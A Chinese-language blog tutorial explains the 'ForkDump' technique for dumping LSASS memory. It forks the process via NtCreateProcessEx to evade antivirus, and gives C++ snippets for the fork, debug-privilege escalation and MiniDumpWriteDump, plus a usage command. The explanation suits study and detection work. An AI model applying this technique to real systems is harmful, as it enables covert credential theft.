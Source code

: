 ```yaml
---
title: ForkDump进行内存转储
tags: 杂
---
```


使用远程进程分叉，可以用来转储 LSASS 分叉进程的内存来逃避监控或阻止访问 LSASS 进程的AV，可能会绕过一些杀毒进行内存DUMP。



twitter上的有人提到，可以用`PROCESS_CREATE_PROCESS`权限就可以克隆目标进程去读取任何东西。

![image-20211203125825909](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20211203211626.png)



主要用到了OpenProcess和NtCreateProcessEx，就是类似于fork一个进程，然后我们去正常的MiniDumpWriteDump就可以获取目标进程的内存数据

​	要打开一个进程进行操作，我们通常先获取目标进程的句柄。通常使用OpenProcess()来获取

```c++
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```

​	第一个参数指定对进程的访问权限，具体可以指定的全部访问权限如链接：https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights

​	这个远程进程分叉用到的是`PROCESS_CREATE_PROCESS`

`PROCESS_CREATE_PROCESS`，此访问权限允许具有包含此访问权限的进程句柄的进程就可以代表该进程创建进程。



然后需要创建进程，用到的是NtCreateProcessEx

函数原型

```c++
NTSTATUS NtCreateProcessEx(
    __out PHANDLE ProcessHandle,
    __in ACCESS_MASK DesiredAccess,
    __in_opt POBJECT_ATTRIBUTES ObjectAttributes,
    __in HANDLE ParentProcess,
    __in ULONG Flags,
    __in_opt HANDLE SectionHandle,
    __in_opt HANDLE DebugPort,
    __in_opt HANDLE ExceptionPort,
    __in ULONG JobMemberLevel
);
```

**函数参数：**

```c++
ProcessHandle，输出参数，如果创建成功，则它返回所创建的进程的句柄。
DesiredAccess， 新进程的访问权限。
ObjectAttributes，可选参数，指定了新进程的对象属性。
ParentProcess：新进程的父进程句柄。如果这个参数没有设定，即新进程没有父进程，新进程使用系统地址空间创建。
Flags ：进程创建的标志。
SectionHandle ：内存区域映射句柄，用来创建进程的地址空间，**如果这个参数没有设定，新进程的地址空间是一个简单的克隆父进程的地址空间。**
DebugPort ： 一个端口对象的句柄，被用于进程的调试端口。
ExceptionPort ：一个端口对象的句柄，被用于进程的异常端口。
JobMemberLevel ：新进程的在 jobset 中的等级。
```

​	通过为 `SectionHandle` 传递`NULL` 并为 `ParentProcess `参数传递目标的 `PROCESS_CREATE_PROCESS` 句柄，将创建远程进程的分支，攻击者将收到分支进程的句柄。此外，只要攻击者不创建任何线程，就不会触发进程创建回调。这意味着攻击者可以读取目标的敏感内存，而AV甚至不知道子进程已经创建。

```c++
NtCreateProcessEx(&this->CurrentSnapshotProcess,
							   PROCESS_ALL_ACCESS,
							   NULL,
							   this->TargetProcess,
							   0,
							   NULL,
							   NULL,
							   NULL,
							   0);
```

然后正常的赋予debug的priv并且dump即可

提升debug权限：

```c++
BOOL
EscalateDebugPrivilege (
    VOID
    )
{
    BOOL result;
    HANDLE currentToken;
    LUID currentDebugValue;
    TOKEN_PRIVILEGES newTokenPrivilege;

    result = FALSE;
    currentToken = NULL;

    //
    // Open the current processes' token.
    //
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &currentToken) == FALSE)
    {
        printf("Failed to open the token of the current process with the last error %i.\n", GetLastError());
        goto Exit;
    }

    //
    // Lookup the LUID of the debug privilege.
    //
    if (LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &currentDebugValue) == FALSE)
    {
        printf("Failed to lookup the current debug privilege with the last error %i.\n", GetLastError());
        CloseHandle(currentToken);
        goto Exit;
    }

    //
    // Create our elevated token privilege.
    //
    newTokenPrivilege.PrivilegeCount = 1;
    newTokenPrivilege.Privileges[0].Luid = currentDebugValue;
    newTokenPrivilege.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    //
    // Adjust the current processes' token.
    //
    if (AdjustTokenPrivileges(currentToken, FALSE, &newTokenPrivilege, sizeof(newTokenPrivilege), NULL, NULL) == FALSE || 
        GetLastError() != ERROR_SUCCESS)
    {
        printf("Failed to adjust debug privileges with the last error %i.\n", GetLastError());
        CloseHandle(currentToken);
        goto Exit;
    }

    result = TRUE;
Exit:
    if (currentToken)
    {
        CloseHandle(currentToken);
    }
    return result;
}
```



MiniDump:

```c++
    if (MiniDumpWriteDump(snapshotProcess, GetProcessId(snapshotProcess), dumpFile, MiniDumpWithFullMemory, NULL, NULL, NULL) == FALSE)
    {
        printf("Failed to create a dump of the forked process with the last error %i.\n", GetLastError());
        goto Exit;
    }
```

用法：

```
ForkDump-x64.exe lsass.dmp 656
```

https://github.com/D4stiny/ForkPlayground



#### 参考

https://bbs.pediy.com/thread-114958.htm

https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/